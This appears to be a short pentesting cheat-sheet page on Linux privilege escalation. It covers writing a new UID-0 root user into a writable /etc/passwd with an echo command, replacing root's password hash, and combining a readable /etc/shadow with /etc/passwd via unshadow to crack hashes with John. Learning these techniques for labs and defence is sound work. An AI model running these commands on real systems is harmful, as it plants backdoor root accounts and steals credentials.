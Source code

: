 
### Create a new user
- write a new line entry create a new user!
- Add the password hash of our choice, and set the UID, GID and shell to root.

```shell
openssl passwd -1 -salt [salt] [password]
```

```
new_user:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash
```

```shell
echo 'new_user:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> /etc/passwd
```

## Replace the hash of root
Generate password
```shell
openssl passwd [password]
```

Edit the `/etc/passwd` file and place the generated password hash between the first and second colon (:) of the root user's row **(replacing the "x").**

</div></div>

### 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">

<div class="markdown-embed-title">

### Readable shadow - cracking hashes

</div>


- The /etc/shadow file is the file on Linux machines where password hashes are stored.
- It also stores other information, such as the date of last password change and password expiration information
# unshadow

John can be very particular about the formats it needs data in to be able to work with it.
you must **combine** it with the /etc/passwd file

``` bash
unshadow [path to passwd] [path to shadow]
```

``` bash
unshadow local_passwd local_shadow > unshadowed.txt
```

use just the relevant line

local_passwd  
Contains the /etc/passwd line for the root user:
local_shadow
Contains the /etc/shadow line for the root user:
# cracking
in some cases you will need to specify the format as we have done previously using: `--format=sha512crypt`
